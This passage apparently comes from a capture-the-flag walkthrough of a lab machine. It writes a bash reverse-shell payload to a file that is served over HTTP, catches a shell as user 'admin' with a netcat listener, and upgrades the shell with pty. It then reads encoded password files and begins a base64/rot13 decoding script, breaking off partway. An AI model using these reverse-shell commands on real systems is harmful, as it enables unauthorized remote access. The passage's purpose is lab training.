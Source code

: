 ```bash
root@kali:~$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/1337 0>&1"' > getadmin
root@kali:~$ python3 -m http.server 
```

We wait a moment and we have a shell as user **admin**.

```bash
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.169] 50841
bash: no job control in this shell
[admin@localhost ~]$ python -c "import pty; pty.spawn('/bin/bash')"
[admin@localhost ~]$ id
id
uid=501(admin) gid=501(admin) groups=501(admin)
```

In the home directory there are two files that contain an encoded string.

```bash
[admin@localhost ~]$ cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq

[admin@localhost ~]$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
```

Also was found a python script that encodes a string to base64, rot13 and reverts it.

```bash
[admin@localhost ~]$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

The following python script performs the reverse process.

```python
#!/usr/bin/env python3

import sys
import base64
import codecs

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [string]")
    sys.exit(0)

string = sys.argv[1]

# Decode the Rot13 string
def decodeRot13(x):
    return codecs.decode(x, 'rot13')

# Reverse the string
def revString(x):
   return x[::-1]

# Decode the base64 string
```